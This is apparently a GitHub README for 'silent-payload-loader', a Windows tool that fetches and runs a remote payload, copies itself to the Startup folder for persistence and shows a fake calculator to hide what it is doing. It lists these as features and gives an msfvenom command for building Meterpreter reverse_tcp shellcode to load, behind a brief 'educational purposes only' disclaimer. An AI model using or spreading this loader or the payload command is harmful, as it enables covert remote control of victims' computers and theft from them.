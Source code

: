 # silent-payload-loader

**silent-payload-loader** is a lightweight Windows tool designed to download and execute a payload from a remote server while ensuring persistence by copying itself to the Windows Startup folder. The tool runs silently in the background, disguising its actions with a fake calculator interface in the foreground.

**Note**: You need to change the defined PAYLOAD in line 

## Features:
- Downloads and executes a remote payload.
- Ensures persistence by copying itself to the Windows Startup folder.
- Hides its malicious actions by running a fake calculator.
- Executes payloads silently in the background.

## Generate shellcode:
Example for a meterpreter (64bit): 
```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f raw -o payload.bin
```

## Disclaimer:
This tool is intended for educational and research purposes only. Do not use it without explicit permission. The author is not responsible for any misuse.
